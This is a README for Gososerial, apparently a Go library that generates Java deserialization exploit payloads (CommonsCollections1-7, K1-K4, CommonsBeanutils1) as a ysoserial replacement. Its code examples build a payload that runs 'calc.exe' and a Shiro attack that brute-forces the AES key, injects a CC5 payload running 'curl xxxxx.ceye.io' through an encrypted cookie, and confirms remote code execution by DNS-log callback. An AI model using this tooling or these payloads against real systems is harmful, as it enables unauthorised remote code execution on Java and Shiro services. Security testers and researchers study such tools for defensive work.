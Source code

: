 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

- Support CommonsCollections1-7,K1-K4,CommonsBeanutils1 Now

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Example

```go
func TestFindShiro(t *testing.T) {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

